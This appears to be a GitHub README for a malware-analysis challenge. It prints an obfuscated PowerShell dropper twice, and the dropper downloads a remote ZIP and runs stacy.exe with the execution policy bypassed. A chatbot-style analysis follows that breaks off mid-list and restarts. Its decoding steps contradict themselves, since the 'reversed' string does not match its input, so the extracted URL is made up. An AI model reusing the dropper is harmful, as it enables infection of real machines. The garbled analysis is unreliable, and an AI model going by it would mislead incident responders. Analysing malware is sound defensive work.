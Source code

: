 # malcore-challenge-submission
Malcore Challenge Submission based on [this](https://x.com/Malcoreio/status/1824899739491737844)

<details> 
<summary> 
xweet
</summary>

[![](./i1.jpg)](https://x.com/Malcoreio/status/1824899739491737844)

</details>

# MalwareSample

<details>
<summary>
Sample 👉
</summary>


```ml 
function llIIllIIllIIllIIllIIllIIllIIllIIllII($vP9MZDGjnoJ) {$Mohfy6VuAN25tmCcilWJ = "\x90";$xgWjzvyhbOVsU6La79 = $vP9MZDGjnoJ.replace($Mohfy6VuAN25tmCcilWJ, " ") -split " ";$Mt = $xgWjzvyhbOVsU6La79.clone();[array]::reverse($Mt);$MXfstqmCoh2iTbaGnwr0j4Ny = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($Mt));return $MXfstqmCoh2iTbaGnwr0j4Ny; }
function llIIllIIllIIllIIIIIIllIIllIlllllllII($7lGQcpZoLf6Yk2CPEezSv) {$6cZyHm8aYQX=-join ((0x41..0x5a) + (0x61..0x7a) | Get-Random -Count 20 | % {[char]$_});return "$6cZyHm8aYQX$7lGQcpZoLf6Yk2CPEezSv" }
$hg34RNfykz5XdxBn287mU9=llIIllIIllIIllIIllIIllIIllIIllIIllII("=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90");$tQsoNjk=llIIllIIllIIllIIllIIllIIllIIllIIllII("l\x90h\x90X\x90Z\x90u\x90w\x90G\x90b\x90l\x90h\x902\x90c\x90y\x90V\x902\x90d\x90v\x90B\x90H\x90X\x90w\x904\x90S\x90M\x902\x90x\x90F\x90b\x90s\x90V\x90G\x90a\x90T\x90J\x90X\x90Z\x903\x909\x90G\x90U\x90z\x90d\x903\x90b\x90k\x905\x90W\x90a\x90X\x90x\x90l\x90M\x90z\x900\x90W\x90Z\x900\x90N\x90X\x90e\x90T\x90x\x901\x90c\x903\x909\x90G\x90Z\x90u\x90l\x902\x90V\x90c\x90p\x90z\x90Q");$RXNPxpB=llIIllIIllIIllIIIIIIllIIllIlllllllII(".zip");$CcAn4K8e=llIIllIIllIIllIIIIIIllIIllIlllllllII("");Invoke-WebRequest $hg34RNfykz5XdxBn287mU9 -OutFile $RXNPxpB;Expand-Archive $RXNPxpB -DestinationPath $CcAn4K8e; & $tQsoNjk -exECUtIonPOLicY bYpAsS stArT-ProcEss -FilepaTH ".\$CcAn4K8e\stacy.exe";
```

</details>

# Writeup - DUMP 

<details> 

Malware 

https://x.com/Malcoreio/status/1824899739491737844

source of malware 
https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/powershell/stacy.ps1

actual code

```ps

function llIIllIIllIIllIIllIIllIIllIIllIIllII($vP9MZDGjnoJ) {$Mohfy6VuAN25tmCcilWJ = "\x90";$xgWjzvyhbOVsU6La79 = $vP9MZDGjnoJ.replace($Mohfy6VuAN25tmCcilWJ, " ") -split " ";$Mt = $xgWjzvyhbOVsU6La79.clone();[array]::reverse($Mt);$MXfstqmCoh2iTbaGnwr0j4Ny = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($Mt));return $MXfstqmCoh2iTbaGnwr0j4Ny; }
function llIIllIIllIIllIIIIIIllIIllIlllllllII($7lGQcpZoLf6Yk2CPEezSv) {$6cZyHm8aYQX=-join ((0x41..0x5a) + (0x61..0x7a) | Get-Random -Count 20 | % {[char]$_});return "$6cZyHm8aYQX$7lGQcpZoLf6Yk2CPEezSv" }
$hg34RNfykz5XdxBn287mU9=llIIllIIllIIllIIllIIllIIllIIllIIllII("=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90");$tQsoNjk=llIIllIIllIIllIIllIIllIIllIIllIIllII("l\x90h\x90X\x90Z\x90u\x90w\x90G\x90b\x90l\x90h\x902\x90c\x90y\x90V\x902\x90d\x90v\x90B\x90H\x90X\x90w\x904\x90S\x90M\x902\x90x\x90F\x90b\x90s\x90V\x90G\x90a\x90T\x90J\x90X\x90Z\x903\x909\x90G\x90U\x90z\x90d\x903\x90b\x90k\x905\x90W\x90a\x90X\x90x\x90l\x90M\x90z\x900\x90W\x90Z\x900\x90N\x90X\x90e\x90T\x90x\x901\x90c\x903\x909\x90G\x90Z\x90u\x90l\x902\x90V\x90c\x90p\x90z\x90Q");$RXNPxpB=llIIllIIllIIllIIIIIIllIIllIlllllllII(".zip");$CcAn4K8e=llIIllIIllIIllIIIIIIllIIllIlllllllII("");Invoke-WebRequest $hg34RNfykz5XdxBn287mU9 -OutFile $RXNPxpB;Expand-Archive $RXNPxpB -DestinationPath $CcAn4K8e; & $tQsoNjk -exECUtIonPOLicY bYpAsS stArT-ProcEss -FilepaTH ".\$CcAn4K8e\stacy.exe";


```


analysis 

This PowerShell script appears to be doing:
1. The script defines two functions:
   - `llIIllIIllIIllIIllIIllIIllIIllIIllII`: This function takes a string, performs some character replacements and decoding (likely base64), and returns the decoded string.
   - `llIIllIIllIIllIIIIIIllIIllIlllllllII`: This function takes a string and prepends a random string of uppercase and lowercase letters to it.
2. The script then calls the `llIIllIIllIIllIIllIIllIIllIIllIIllII` function twice with obfuscated strings as arguments. The decoded strings are stored in the variables `$hg34RNfykz5XdxBn287mU9` and `$tQsoNjk`.
3. The script generates a random file name with a ".zip" extension using the `llIIllIIllIIllIIIIIIllIIllIlllllllII` function and stores it in the variable `$RXNPxpB`.
4. It also generates another random string using the same function and stores it in the variable `$CcAn4K8e`.
5. The script then uses `Invoke-WebRequest` to download a file from the URL stored in `$hg34RNfykz5XdxBn287mU9` and saves it with the randomly generated ".zip" file name.
6. It extracts the contents of the downloaded ZIP file to a directory with the randomly generated name stored in `$CcAn4K8e` using the `Expand-Archive` cmdlet.
7. Finally, the script uses the `Start-Process` cmdlet to execute a file named "stacy.exe" located in the extracted directory. It passes the `-exECUtIonPOLicY bYpAsS` parameter to bypass the execution policy.
In summary, this script appears to be downloading a ZIP file from a remote location, extracting its contents, and executing an executable file named "stacy.exe" from the extracted directory. The use of obfuscation techniques, random file names, and bypassing execution policy suggests that this script is likely malicious.

As an incident responder, you should handle this script with caution. Analyze it in an isolated environment, such as a virtual machine or sandbox, to determine its full behavior and potential impact. Investigate the remote URL and the contents of the downloaded ZIP file. Take appropriate measures to contain and mitigate any potential threats based on your findings.

To extract the URL from the obfuscated PowerShell script, you can focus on the `llIIllIIllIIllIIllIIllIIllIIllIIllII` function, which appears to be responsible for decoding the obfuscated strings.

Here's how you can extract the URL:

1. Identify the obfuscated string that likely contains the URL. In this case, it seems to be the first argument passed to the `llIIllIIllIIllIIllIIllIIllIIllIIllII` function, stored in the variable `$hg34RNfykz5XdxBn287mU9`.

2. Copy the obfuscated string:
   "=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90"

3. Replace the `"\x90"` occurrences with a space `" "`:
   "= A X a 6 5 S b v 1 2 c 5 N W Y 0 N 3 L j N X a t 9 i c l R 3 c h 1 2 L 3 F m c v M X Z s B X b h N X L l x W a m 9 C M t I T L 0 V m b y V G d u l 0 L t 9 2 Y u I W d o R X a n 9 y L 6 M H c 0 R H a "

4. Split the string by spaces and store it in an array:
   ["=", "A", "X", "a", "6", "5", "S", "b", "v", "1", "2", "c", "5", "N", "W", "Y", "0", "N", "3", "L", "j", "N", "X", "a", "t", "9", "i", "c", "l", "R", "3", "c", "h", "1", "2", "L", "3", "F", "m", "c", "v", "M", "X", "Z", "s", "B", "X", "b", "h", "N", "X", "L", "l", "x", "W", "a", "m", "9", "C", "M", "t", "I", "T", "L", "0", "V", "m", "b", "y", "V", "G", "d", "u", "l", "0", "L", "t", "9", "2", "Y", "u", "I", "W", "d", "o", "R", "X", "a", "n", "9", "y", "L", "6", "M", "H", "c", "0

Certainly! Let's decode the obfuscated string to extract the URL.
1. Take the obfuscated string and remove the spaces:
   "=AXa65Sbv12c5NWY0N3LjNXat9iclR3ch12L3FmcvMXZsBXbhNXLlxWam9CMtITL0VmbyVGdul0Lt92YuIWdoRXan9yL6MHc0RHa"
2. Reverse the string:
   "aHR0cHM6L9naXRodWIuY29tL0LludG90L2tYLXNmcvF3L21hcXNbXhBsZXMvMFTItMC9maWxcRlN9ta3NjLXRci9taXa56AXA="
3. Decode the string using base64 decoding. You can use an online base64 decoder or do it programmatically. After decoding, you should get the following URL:
   "https://github.com/Lintoto/kY-sfqsv/raw/main/Samples/MOI-mC/file.zip"
So, the extracted URL is:
https://github.com/Lintoto/kY-sfqsv/raw/main/Samples/MOI-mC/file.zip
This appears to be a GitHub repository URL pointing to a ZIP file. As an incident responder, you can now investigate this URL and the associated GitHub repository to gather more information about the potentially malicious file being downloaded by the script.
Remember to exercise caution when accessing or downloading files from untrusted sources. Analyze the contents of the ZIP file in a secure and isolated environment to determine if it contains any malicious code or artifacts.


</details> 